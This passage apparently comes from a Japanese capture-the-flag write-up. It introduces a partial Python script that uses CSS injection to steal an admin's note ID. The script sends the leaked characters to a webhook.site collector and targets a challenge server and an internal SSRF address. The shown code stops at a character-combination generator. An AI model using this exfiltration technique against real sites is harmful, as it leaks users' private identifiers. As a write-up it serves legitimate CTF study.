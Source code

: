 ![](./img/05.png)
で期待通り背景真っ暗になることが確認できました。

CSS InjectionでadminのノートIDを盗むスクリプトを書きます：

```python
import httpx
from urllib.parse import quote

# base_url = "http://localhost:8080"
base_url = "http://34.84.69.72:8080"
base_ssrf_url = "http://app:8080"

hook_url = "https://webhook.site/xxx-xxx-xxx-xxx-xxx"

chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

suffix = "R1cmOAtdG"  # 現時点で確定しているIDのsuffix
n = 1                 # 一度に確定する文字数


def f(n: int):
    note_description = "{}\n"

    def rec(d: int, s: str) -> list[str]:
        if d == n:
            return [s]
        else:
            return sum([rec(d+1, s+c) for c in chars], [])
```

[^1]: web問でのbotは大抵chromeが使われるので、firefoxの場合には「そこが攻撃ポイントになることが多い」というメタ読みができます。